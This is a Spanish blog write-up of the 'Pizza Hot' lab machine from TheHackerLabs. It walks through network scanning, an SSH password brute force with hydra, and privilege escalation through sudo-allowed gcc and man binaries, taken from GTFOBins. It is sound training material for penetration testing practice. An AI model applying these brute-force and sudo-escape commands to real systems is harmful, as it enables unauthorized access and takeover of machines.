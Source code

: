```yaml
---
layout: post
title: "Pizza Hot"
date: 2024-06-16 17:15:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pizza Hot </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/pizzahot/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/PizzaHot/host.png){:.margin}

**1\.** Enumo dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios.

`sudo nmap -p- --open -sCV -T5 -n -Pn --min-rate=5000 192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/nmap.png){:.margin}

**3\.** Visito la web, revisando la fuente encuentro un usuario potencial.

![img](/notas/public/img/thehackerlabs/PizzaHot/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/PizzaHot/80code.png){:.margin}

**4\.** Bruteforce con hydra al ssh.

`hydra -l pizzapiña -P /usr/share/wordlists/wockyou.txt ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/hydra.png){:.margin}

**5\.** Conectandome por ssh con el usuario pizzapiña.

`ssh pizzapiña@192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/ssh.png){:.margin}

**6\.** Viendo nuestros permisos sudo, tengo el binario gcc que puedo ejecutar como pizzasinpiña.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol.png){:.margin}

**7\.** En [gtfobins](https://gtfobins.github.io/gtfobins/gcc/#sudo) tenemos el comando para escalar o en este caso migrar de usuario.

`sudo -u pizzasinpiña gcc -wrapper /usr/bin/bash,-s .`

![img](/notas/public/img/thehackerlabs/PizzaHot/pizzasinpiña.png){:.margin}

**8\.** Ahora tenemos un binario que podemos ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol2.png){:.margin}

**9\.** Escalando privilegios a root, [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo).

_9.1- Ejecutamos el siguiente comando_

`sudo -u root man man`

![img](/notas/public/img/thehackerlabs/PizzaHot/man.png){:.margin}

_9.2- En este punto nos lanzamos una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/PizzaHot/man2.png){:.margin}

_9.3- Ya somos root_

![img](/notas/public/img/thehackerlabs/PizzaHot/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>